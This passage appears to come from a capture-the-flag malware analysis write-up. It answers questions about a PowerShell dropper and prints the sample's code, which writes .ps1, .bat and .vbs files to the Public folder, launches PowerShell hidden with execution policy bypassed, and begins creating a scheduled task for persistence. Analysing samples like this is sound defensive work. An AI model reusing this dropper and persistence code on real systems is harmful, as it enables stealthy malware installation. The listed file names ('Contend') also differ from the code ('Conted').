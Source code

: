 > ANSWER: `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe`

#### Q7: The script is designed to drop several files. List the names of the files dropped by the script.

By looking into persitence mechanism, we could see adversary drop multi file type into `Public` folder:
- Contend.ps1
- Contend.bat
- Contend.vbs

```shell
'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.ps1", $Content)


$Content = @'
@e%Conted%%Conted% off
set "ps=powershell.exe"
set "Contedms=-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass"
set "cmd=C:\Users\Public\Conted.ps1"
%ps% %Contedms% -Command "& '%cmd%'"
exit /b

'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.bat", $Content)

$Content = @'
on error resume next
Function CreateWshShellObj()
    Dim objName
    objName = "WScript.Shell"
    Set CreateWshShellObj = CreateObject(objName)
End Function

Function GetFilePath()
    Dim filePath
    filePath = "C:\Users\Public\Conted.bat"
    GetFilePath = filePath
End Function

Function GetVisibilitySetting()
    Dim visibility
    visibility = 0
    GetVisibilitySetting = visibility
End Function

Function RunFile(wshShellObj, filePath, visibility)
    wshShellObj.Run filePath, visibility
End Function

Set wshShellObj = CreateWshShellObj()
filePath = GetFilePath()
visibility = GetVisibilitySetting()
Call RunFile(wshShellObj, filePath, visibility)

'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.vbs", $Content)


Sleep 2

$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()

```